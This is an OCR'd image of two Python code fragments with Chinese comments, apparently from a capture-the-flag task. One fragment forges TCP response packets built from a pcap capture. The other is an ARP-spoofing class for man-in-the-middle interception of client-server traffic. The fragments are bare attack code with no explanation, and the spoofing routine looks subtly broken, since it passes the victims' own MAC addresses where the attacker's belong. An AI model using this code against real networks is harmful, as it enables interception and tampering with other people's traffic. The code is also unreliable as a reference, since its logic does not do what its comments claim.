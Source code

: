 ```py

                    print(f"From {src_ip} To {dst_ip}: {payload_data}")

                    # 如果匹配到目标数据并需要响应
                    if "ECHO" in payload_data:
                        print(f"Responding with: {custom_response}")

                        # 构建并发送伪造响应数据包
                        ip_layer = IP(src=dst_ip, dst=src_ip)  # 交换 src 和 dst
                        tcp_layer = TCP(sport=pkt[TCP].dport, dport=pkt[TCP].sport, flags="PA", seq=pkt[TCP].ack, ack=pkt[TCP].seq + len(payload_data))
                        response_packet = ip_layer / tcp_layer / custom_response
                        send(response_packet, verbose=False)
                except UnicodeDecodeError:
                    continue

if __name__ == "__main__":
    # 读取 pcap 文件和目标端口
    pcap_file = "144.pcap"  # 替换为你的文件路径
    target_port = 31337

    # 定义自定义响应
    custom_response = "ECHO FLAG"

    # 提取并发送响应
    extract_and_respond(pcap_file, target_port, custom_response)

```







```py
import scapy.all as scapy
import os
import time
import random
import socket

class MITMHost:
    def __init__(self, attacker_ip, attacker_mac, server_ip, server_mac, client_ip, client_mac):
        self.attacker_ip = attacker_ip
        self.attacker_mac = attacker_mac
        self.server_ip = server_ip
        self.server_mac = server_mac
        self.client_ip = client_ip
        self.client_mac = client_mac

    def send_arp(self, target_ip, target_mac, source_ip, source_mac):
        """
        发送ARP包，伪造ARP响应，告诉目标主机该IP的MAC地址
        """
        arp_packet = scapy.ARP(op=2, psrc=source_ip, pdst=target_ip, hwsrc=source_mac, hwdst=target_mac)
        scapy.sendp(arp_packet, verbose=False)

    def spoof(self):
        """
        伪造ARP响应，使客户端与服务器之间的流量转发到攻击者
        """
        self.send_arp(self.client_ip, self.client_mac, self.server_ip, self.server_mac)
        self.send_arp(self.server_ip, self.server_mac, self.client_ip, self.client_mac)

```